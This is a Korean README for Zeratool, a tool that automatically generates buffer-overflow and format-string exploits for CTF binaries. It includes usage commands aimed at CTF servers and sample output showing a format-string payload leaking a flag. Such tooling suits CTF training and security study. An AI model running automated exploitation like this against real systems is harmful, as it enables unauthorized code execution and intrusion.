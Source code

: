 # Zeratool
CTF 포너블 문제를 위한 자동 익스플로잇 생성기와 원격 FLAG 캡쳐 도구

## Introduction
이 도구는 angr를 통하여 printf 후킹과 제약되지 않은 경로를 찾아 바이너리를 분석하고, pwntools와 스크립트 트릭을 통해 원격 코드 실행을 편하게 해준다. 마지막으로 페이로드가 로컬에서 테스트된 후 리모트 CTF서버에 제출되어 플래그를 얻을 수 있다.


[![asciicast](https://asciinema.org/a/188002.png)](https://asciinema.org/a/188002)

## Installing
Zeratool은 Ubuntu 16.04에서 테스트되었다고하며, 설치 스크립트는 Ubuntu 12.04에서 Ubuntu 18.04까지 지원됩니다.
```
./install.sh
```

## Usage
Zeratool은 바이너리를 인자로 받아들이고 선택적으로 링크된 libc 라이브러리 및 CTF 서버 연결 정보를 인자로 추가할 수 있는 python 스크립트입니다.
```
[chris:~/Zeratool] [angr] python zeratool.py -h
usage: zeratool.py [-h] [-l LIBC] [-u URL] [-p PORT] [-v] file

positional arguments:
  file                  File to analyze

optional arguments:
  -h, --help            show this help message and exit
  -l LIBC, --libc LIBC  libc to use
  -u URL, --url URL     Remote URL to pwn
  -p PORT, --port PORT  Remote port to pwn
  -v, --verbose         Verbose mode
```

## Exploit Types
Zeratool은 Buffer Overflow 및 Format String 버그에 대하여 지원합니다.

* Buffer Overflow
    * Point program counter to win function
    * Point program counter to shellcode
    * Point program counter to rop chain
        * ROP chains need a libc base address
        * one-gadget and ropper are used rop chain building
* Format String
    * Point GOT entry to win function
    * Point GOT entry to shellcode

## Examples
challenges 폴더에 있는 바이너리 혹은 samples.sh를 통해서 어떻게 동작하는지 테스트해 볼 수 있습니다.
```
#!/bin/bash
#Buffer Overflows with win functions
python zeratool.py challenges/ret -u ctf.hackucf.org -p 9003
python zeratool.py challenges/bof3 -u ctf.hackucf.org -p 9002
python zeratool.py challenges/bof2 -u ctf.hackucf.org -p 9001
python zeratool.py challenges/bof1 -u ctf.hackucf.org -p 9000

#Down for the summer
#python zeratool.py challenges/easy_format -u tctf.competitivecyber.club -p 7801
#python zeratool.py challenges/medium_format -u tctf.competitivecyber.club -p 7802

#Format string leak
python zeratool.py challenges/easy_format
#Format string point to win function
python zeratool.py challenges/medium_format
#Format string point to shellcode
python zeratool.py challenges/hard_format #This one sometimes needs to be run twice

#Buffer overflow point to shellcode
python zeratool.py challenges/demo_bin
```

## Example(easy_format)
```
(zeratool) root@5ba1527e39bb:/pwd/Downloads/Zeratool-master# python zeratool.py challenges/easy_format
[+] Checking pwn type...
[+] Checking for overflow pwn type...
[+] Checking for format string pwn type...
[+] Found symbolic buffer at position 0 of length 49
[+] Vulnerable path found %x_%
[+] Triggerable with STDIN : %x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x

[+] Getting binary protections
[+] Checking for flag leak
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[~] Odd length string detected... Skipping
[+] Flag found:
[+] Returned eyU`Zflag{y0u_g0t_1t}
%x_%8x_%17$08x_%18$08x_%19$08x_%20$08x_%21$08x_%22$08x_%23$08x_%8x_%41$08x_%42$08x_%43$08x_%44$08x_%45$08x_%46$08x_%47$08x
```

## Reference
[Zeratool](https://github.com/ChrisTheCoolHut/Zeratool)